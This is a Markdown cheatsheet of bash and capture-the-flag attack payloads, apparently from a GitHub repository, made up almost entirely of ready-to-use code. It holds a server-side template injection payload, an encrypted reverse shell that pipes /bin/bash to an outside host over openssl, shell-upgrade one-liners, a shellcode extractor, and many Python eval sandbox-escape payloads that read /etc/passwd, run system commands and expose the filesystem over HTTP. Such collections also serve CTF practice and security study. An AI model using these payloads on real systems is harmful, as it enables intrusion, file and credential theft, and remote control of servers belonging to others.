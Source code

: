 # Bash And CTF Cheatsheet

## Server Side Template Injection
```bash
{{ ().__class__.__base__.__subclasses__()[59].__init__.func_globals["linecache"].__dict__["os"].system('cat flag.txt') }}
```


## Bash Hack

### Bashfuck
Executing command without using alphanum characters

[BasFuck](https://github.com/trichimtrich/bashfuck)

### Socat

```bash
socat -d -d -d TCP4-LISTEN:1337,reuseaddr,fork EXEC:"python pwn.py" > /dev/null 2>&1 &
```

### Shellcode Extractor

```bash
objdump -d ./orww|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
Source : [http://www.ilmuhacking.com/exploit/belajar-membuat-shellcode-part-1/](http://www.ilmuhacking.com/exploit/belajar-membuat-shellcode-part-1/) 

### Reverse SSL shell openssl - @ThemsonMester

Before the listener can be started, a key pair and a certificate must be generated.

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

#### Listener
```bash
openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>
```

#### Shell
```bash
mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <HOST>:<PORT> > /tmp/s; rm /tmp/s
```
Source : [https://medium.com/@honze_net/reverse-shell-and-some-magic-39629ccd0e5c](https://medium.com/@honze_net/reverse-shell-and-some-magic-39629ccd0e5c)

### Spawn("/bin/bash") if no python installed

No python installed for the 'pty.spawn("/bin/bash")' trick? Can use expect or script as well :D

#### Script
```bash
SHELL=/bin/bash script -q /dev/null
```

#### expect
```bash
expect -c 'spawn bash; interact'
```
Source : [https://twitter.com/ropnop/status/884928178048860160](https://twitter.com/ropnop/status/884928178048860160)


### awk
```bash
awk 'BEGIN {system("/bin/bash")}'
```

## Python eval payload

```python
print('THIS IS A PYTHON EVAL INTERPRETED OUTPUT')
exit()
sum(xrange(-999999999,99999999))
 
file('/etc/passwd').read()
open('/etc/passwd').read()
__import__['fileinput'].input('/etc/passwd')
__import__['os'].system('cat /etc/passwd')
__import__['os'].popen('/etc/passwd', 'r').read()
__import__['os'].system('cd /; python -m SimpleHTTPServer')
 
print(file('/etc/passwd').read())
print(open('/etc/passwd').read())
print(__import__['fileinput'].input('/etc/passwd'))
print(__import__['os'].system('cat /etc/passwd'))
print(__import__['os'].popen('/etc/passwd', 'r').read())
print(__import__['os'].system('cd /; python -m SimpleHTTPServer'))
 
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']('THIS IS A PYTHON EVAL INTERPRETED OUTPUT')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['exit']()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['sum']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['xrange'](-999999999,99999999))
 
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['file']('/etc/passwd').read()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('/etc/passwd').read()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('fileinput').input('/etc/passwd')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cat /etc/passwd')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').popen('/etc/passwd', 'r').read()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cd /; python -m SimpleHTTPServer')
 
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['file']('/etc/passwd').read())
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('/etc/passwd').read())
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('fileinput').input('/etc/passwd'))
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cat /etc/passwd'))
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').popen('/etc/passwd', 'r').read())
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cd /; python -m SimpleHTTPServer'))
```
source : [https://www.floyd.ch/?p=584](https://www.floyd.ch/?p=584) 

